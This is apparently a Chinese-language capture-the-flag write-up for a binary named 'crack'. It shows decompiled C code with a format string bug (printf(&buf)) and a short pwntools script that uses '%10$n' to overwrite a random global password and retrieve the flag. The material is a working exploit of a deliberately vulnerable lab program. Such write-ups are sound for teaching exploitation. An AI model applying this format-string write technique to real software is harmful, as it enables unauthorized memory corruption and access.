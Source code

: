 ### 分析 ###

该题是典型的格式化字符串利用，将bss段的全局变量passwprd覆盖为已知值即可。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int fd; // ST14_4
  char nptr; // [esp+8h] [ebp-80h]
  char buf; // [esp+18h] [ebp-70h]
  unsigned int v8; // [esp+7Ch] [ebp-Ch]

  v8 = __readgsdword(0x14u);
  setvbuf(_bss_start, 0, 2, 0);
  v3 = time(0);
  srand(v3);
  fd = open("/dev/urandom", 0);
  read(fd, &password, 4u);
  printf("What your name ? ");
  read(0, &buf, 0x63u);
  printf("Hello ,");
  printf(&buf);
  printf("Your password :");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == password )
  {
    puts("Congrt!!");
    system("cat /home/crack/flag");
  }
  else
  {
    puts("Goodbyte");
  }
  return 0;
}

```

### 利用 ###

首先测得 or 调试得到格式化字符串在栈中的偏移为10，然后布置`target_addr%10$n`的格式化字符串，向target_addr写入4。然后输入4即可。

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./crack")
p = process("./crack")

p.recvuntil("? ")
payload = p32(0x804a048)
payload += "%10$n"
p.sendline(payload)
p.sendafter(":", "4")

p.interactive()

```
